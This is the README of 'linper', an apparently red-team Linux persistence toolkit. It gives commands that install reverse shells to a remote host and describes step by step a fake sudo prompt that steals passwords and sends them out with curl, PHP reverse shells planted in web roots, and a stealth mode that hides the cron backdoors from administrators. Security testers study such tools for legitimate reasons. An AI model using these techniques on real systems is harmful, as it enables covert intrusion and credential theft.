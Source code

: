 # linper

linux persistence toolkit

## files

- countermeasures/ - ways to harden/monitor common persistence mechanisms
- powershell/ - placeholder for the eventual winper
- CONTRIBUTE.md - notes on contributing to this project
- README.md - or not
- TODO.md - planned fixes & enhancements
- linper.sh - execute me

## features

- enumerate programs that can be used to execute a reverse shells and ways to make them persist a reboot
- automatically install reverse shells with all the required syntax, redirection, and pipes to minimize printing errors to screen or interrupting normal functions and processes
- supply custom crontab schedules for reverse shells
- look through /etc/shadow for accounts that can login via a password
- support for a stealth mode and the ability to clean up after itself
- place a function in ~/.bashrc to intercept and exfil sudo passwords
- place php reverse shells in web server directories

## credit

huge shoutout to the maintainers and contributers of [GTFOBins](https://gtfobins.github.io/) as their great resource laid the groundwork for much of this tool

also, thanks to Null Byte and [this article](https://null-byte.wonderhowto.com/how-to/steal-ubuntu-macos-sudo-passwords-without-any-cracking-0194190/) for the idea and some of the code behind the _Sudo Hijack Attack_ as implemented in this tool 

lastly, thank you to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for their examples on this too. 

## usage

### enumerating binaries for persistence

`bash linper.sh --dryrun`

`bash linper.sh -d`

### installing reverse shells

`bash linper.sh --rhost 10.10.10.10 --rport 4444`

`bash linper.sh -i 10.10.10.10 -p 4444`

#### stealth mode

`bash linper.sh --rhost 10.10.10.10 --rport 4444 --stealth-mode`

`bash linper.sh -i 10.10.10.10 -p 4444 -s`

### remove reverse shells to a given RHOST

`bash linper.sh --rhost 10.10.10.10 --clean`

`bash linper.sh -i 10.10.10.10 -c`

### emumerate defensive measures

`bash linper.sh --enum-defenses`

`bash linper.sh -e`

### advanced usage

run `bash linper.sh --examples` to see all usage examples

## methodology

### installing

1. enumerating methods and doors - the script enumerates binaries that can be used for executing a reverse shell (methods, e.g. bash), and then for each of those, it enumerates ways to make them persist (doors, e.g. crontab). If dryrun is not set, every possible method and door pair is installed <b>(the doors, and how often they execute, are explained in greater detail below)</b>

2. sudo hijack attack - enumerates whether or not the current user can sudo, if so, and if dryrun not set, it installs a function in their bashrc to "hijack" that binary

3. web server poison attack - enumerates whether or not the webserver's directories are writable and, if so and dryrun is not set, place a PHP reverse shell in them

4. shadow file enumeration - enumerates whether or not the shadow file is readable, if dryrun is not set then it will grep for non-system accounts

#### stealth mode

`-s, --stealth-mode various trivial modifications in an attempt to hide the backdoors from humans`

1. makes the files related to installing services hidden by prepending a "."

2. disables the ability to append methods to the bashrc - because if a connection fails it is noisy and prints to the screen

3. creates a `crontab` function in \~/.bashrc to override the `-r` and `-l` flags. `-r` is changed to remove all crontab entries <u>except</u> your reverse shells. `-l` is changed to list all the existing cron jobs <u>except</u> your reverse shells

### cleaning

1. to remove shells from the bashrc (current user's and /etc/skel), it simply greps out any lines with the given RHOST and creates a temp file which is then used to replace the respective file

2. to remove shells from /etc/crontab and /var/spool/cron/crontabs. for /etc/crontab, it greps out any lines containing the supplied RHOST. for contab spool, it attempts to grep out any lines with the given RHOST from `crontab -l`, then greps for any remaining `[a-zA-Z0-9]` characters and pipes that to crontab. If the install fails, it assumes there are no other cron jobs so it runs `crontab -r`

3. to remove reverse shells from systemctl service files, it looks for the any file with the given RHOST in it and then looks for the name of said file in any other file and removes both

4. to remove shells from /etc/rc.local, it simply greps out any reference to the given RHOST and if the remaining file is two lines long it assumes there was nothing else to execute in rc.local so it removes the file (it checks for two lines because, at minimum, it must start with `!#/bin/sh -e` and end with `exit 0`)

5. to remove the `crontab` function installed by `-s, --stealth-mode`, it looks for the provided RHOST in ~/.bashrc and the string "function crontab". If both return true then it uses sed and grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file 

6. to remove the `sudo` function, it looks for the provided RHOST, various variable names used by the function, and the string "function sudo". If all return true, then it uses sed and grep to remove the function itself, writes to a temp file, and then replaces ~/.bashrc with the temp file

7. to remove reverse shells from the web root and /etc/cron.d/, recursively greps for any file containing the provided RHOST and removes each file it finds

## execution frequency

this will explain how often different programs installed by the tool will execute

### doors

how often a reverse shell installed using each door will callback

- bashrc, every time bash initializes for the user it was installed with (e.g. interactive shell, or running "/bin/bash") 
- /var/spool/cron/crontabs/user, /etc/crontab, and /etc/cron.d/, custom (defualt: every minute)
- systemctl, at system startup
- /etc/rc.local, at system startup
- /etc/skel/.bashrc, after a new user is created, and then any time that user initializes bash

### sudo hijack attack

how often the `sudo` alias will attempt to exfil passwords

- every time `sudo` is executed by the account linper was ran as
- make sure to have a web server running on port 443 on the IP you provided as the `-i, --rhost`

#### how it works

1. when linper is executed it puts a `sudo` function in the bashrc of the current user

after it is installed and once `sudo` is executed, the alias will:

2. takes note of where the actual `sudo` program is located on the system
3. determines where to create a file to store exfiltrated passwords
4. creates a fake `sudo` prompt and stores the input (password) as a variable
5. puts the contents of the variable in the file from step 3
6. sorts and deduplicates aforementioned file
7. base64 encodes the contents of the file and stores it as a variable
8. uses `curl` to exfiltrate the base64 as a GET parameter to https://$RHOST/
9. runs `exit` with the actual `sudo` program to start the sudo session timer
10. runs the supplied input of the original `sudo` command (not the password, but the program and arguments) with the actual `sudo` binary

### web server hijack attack

1. uses /etc/passwd to find the web root
2. installs php reverse shells in all writable directories under web root
